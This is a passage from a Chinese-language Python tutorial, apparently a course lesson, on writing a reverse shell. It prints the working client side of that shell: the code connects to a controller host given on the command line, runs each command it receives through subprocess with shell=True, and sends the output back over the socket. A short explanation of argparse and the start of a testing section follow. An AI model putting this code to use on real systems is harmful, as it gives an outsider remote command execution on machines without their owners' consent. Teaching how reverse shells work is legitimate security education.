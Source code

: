 ```py
        comRst = subprocess.Popen(data,shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        m_stdout, m_stderr = comRst.communicate()
        sock.send(m_stdout.decode(sys.getfilesystemencoding()).encode('utf-8'))
        time.sleep(1)
    sock.close()

def main():
    parser = argparse.ArgumentParser()  #命令行参数解析对象
    parser.add_argument('-H',dest='hostName',help='Host Name')
    parser.add_argument('-p',dest='conPort',help='Host Port')

    args = parser.parse_args()          #解析命令行参数
    host = args.hostName
    port = args.conPort

    if host == None and port == None:
        print(parser.parse_args(['-h']))
        exit(0)

    connectHost(host,port)              #连接到控制端

if __name__ == '__main__':
    main() 
```

我在被控端的 main()函数中使用了命令行解析模块`argparse`，有不懂得怎么用的同学，可以看一下我的另一个课程[Python 实现 FTP 弱口令扫描器](https://www.shiyanlou.com/courses/579),或者查看 Python 的官方文档，来学习[argparse](https://docs.python.org/3/library/argparse.html?highlight=argparser)的用法。

至此我们的代码就全部完成了！当然这只是反向 Shell 的核心，如果同学们对反向 Shell 有兴趣，可以继续完善想要的功能。

## 五、程序测试

现在我们来测试我们的程序是否达到了我们想要的功能。在编写好代码之后首先运行我们的控制端脚本，效果如下图所示：

![此处输入图片的描述](img/document-uid231096labid1969timestamp1470207400054.jpg)
